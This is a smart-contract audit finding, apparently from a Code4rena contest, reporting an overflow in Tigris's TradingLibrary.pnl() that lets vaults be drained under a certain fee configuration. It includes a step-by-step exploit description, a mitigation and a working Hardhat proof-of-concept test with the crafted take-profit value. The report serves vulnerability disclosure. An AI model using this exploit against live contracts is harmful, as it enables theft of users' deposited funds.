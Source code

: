 ## Tags

- bug
- 3 (High Risk)
- selected for report
- sponsor confirmed
- H-03

# [Certain fee configuration enables vaults to be drained](https://github.com/code-423n4/2022-12-tigris-findings/issues/86) 

# Lines of code

https://github.com/code-423n4/2022-12-tigris/blob/588c84b7bb354d20cbca6034544c4faa46e6a80e/contracts/utils/TradingLibrary.sol#L46


# Vulnerability details

# Certain fee configuration enables vaults to be drained

### Summary
An overflow in `TradingLibrary.pnl()` enables all funds from the vault contracts to be drained given a certain fee configuration is present.


### Detailed exploit process description
When opening a position, any value can be passed as take-profit price. This value is later used in the PNL calculation in an `unchecked` block. Setting this value specifically to attack the vault leads to the `Trading` contract minting a huge (in the example below `10^36`) Tigris tokens, which can then be given to the vault to withdraw assets.

The exploiter starts by setting himself as referrer, in order to later receive the referrer fees. 
The next step is to open a short position at the current market price by calling `initiateLimitOrder()`. Here, the malicious value which will later bring the arithmetic to overflow is passed in as take-profit price. For the example below, the value has been calculated by hand to be `115792089237316195423570985008687907854269984665640564039467` for this specific market price, leverage and margin. 
The order is then immediately executed through `executeLimitOrder()`.
The final step is to close the order through `limitClose()`, which will then mint over `10^36` Tigris tokens to the attacker.


### Detailed bug description
The bug takes place in `TradingLibrary.pnl()`, line 46. The function is called during the process of closing the order to calculate the payout and position size. The malicious take-profit is passed as `_currentPrice` and the order's original opening price is passed as `_price`. The take-profit has been specifically calculated so that `1e18 * _currentPrice / _price - 1e18` results in `0`, meaning `_payout = _margin` (`accInterest` is negligible for this PoC).
Line 48 then calculates the position size. Margin and leverage have been chosen so that `_initPositionSize * _currentPrice` does not overflow, resulting in a huge `_positionSize` which is returned from the function.

Later, `Trading._handleCloseFees()` is called, under the condition that `_payout > 0`, which is why the overflow had to be calculated so precisely, as to not subtract from the `_payout` but still create a large `_positionSize`. `_positionSize` is passed in to this function, and it is used to calculate DAO and referral fees. Line 805 is what requires the specific fee configuration to be present, as otherwise this line would revert. The fees have to be `daoFees = 2*referralFees` -- not exactly, but close to this relationship. Then line 792 will set the DAO fees close to zero, while the huge `referralFees` are directly minted and not included in the calculation in line 805.


### Recommended mitigation
The core issue is that the arithmetic in `TradingLibrary.pnl()` overflows. I recommend removing the `unchecked` block.



### PoC
Insert the following code as test into `test/07.Trading.js` and run it with `npx hardhat test test/07.Trading.js`:
```javascript
describe("PoC", function () {
    it.only("PoC", async function () {
      // Setup token balances and approvals
      const mockDAI = await ethers.getContractAt("MockERC20", MockDAI.address)
      await mockDAI.connect(owner).transfer(user.address, parseEther("10000"))
      await mockDAI.connect(user).approve(trading.address, parseEther("10000"))
      const permitData = [
        "0",
        "0",
        "0",
        "0x0000000000000000000000000000000000000000000000000000000000000000",
        "0x0000000000000000000000000000000000000000000000000000000000000000",
        false
      ]

      // Create referral code
      await referrals.connect(user).createReferralCode(ethers.constants.HashZero)

      // Set the fees
      await trading.connect(owner).setFees(
        false,        // close
        "200000000",  // dao  
        "0",          // burn
        "100000000",  // referral
        "0",          // bot
        "0",          // percent
      )


      // ============================================================== //
      // =================== Create the limit order =================== //
      // ============================================================== //
      const tradeInfo = [
        parseEther("1"),          // margin amount
        MockDAI.address,          // margin asset
        StableVault.address,      // stable vault
        parseEther("2"),          // leverage
        0,                        // asset id
        false,                    // direction (short)
        "115792089237316195423570985008687907854269984665640564039467",          // take profit price
        parseEther("0"),       // stop loss price
        ethers.constants.HashZero // referral (ourself)
      ];

      // Create the order
      await trading.connect(user).initiateLimitOrder(
        tradeInfo,            // trade info
        1,                    // order type (limit)
        parseEther("1000"),   // price
        permitData,           // permit
        user.address          // trader
      )


      // ============================================================== //
      // =================== Execute the limit order ================== //
      // ============================================================== //

      // Wait for some blocks to pass the delay
      await network.provider.send("evm_increaseTime", [10])
      await network.provider.send("evm_mine")

      // Create the price data
      let priceData = [
        node.address,                                   // provider
        0,                                              // asset id
        parseEther("1000"),                             // price
        10000000,                                       // spread (0.1%)
        (await ethers.provider.getBlock()).timestamp,   // timestamp
        false                                           // is closed
      ]

      // Sign the price data
      let message = ethers.utils.keccak256(
        ethers.utils.defaultAbiCoder.encode(
          ['address', 'uint256', 'uint256', 'uint256', 'uint256', 'bool'],
          [priceData[0], priceData[1], priceData[2], priceData[3], priceData[4], priceData[5]]
        )
      );
      let sig = await node.signMessage(
        Buffer.from(message.substring(2), 'hex')
      )

      // Execute the limit order
      await trading.connect(user).executeLimitOrder(1, priceData, sig);





      // ============================================================== //
      // ======================== Close order  ======================== //
      // ============================================================== //

      // Wait for some blocks to pass the delay
      await network.provider.send("evm_increaseTime", [10])
      await network.provider.send("evm_mine")

      // Close order
      await trading.connect(user).limitClose(
        1,          // id
        true,       // take profit
        priceData,  // price data
        sig,        // signature
      )

      // Print results
      const amount = await stabletoken.balanceOf(user.address)
      const tenPow18 = "1000000000000000000"
      console.log(`StableToken balance at end: ${(amount / tenPow18).toString()}`)
    })
})
```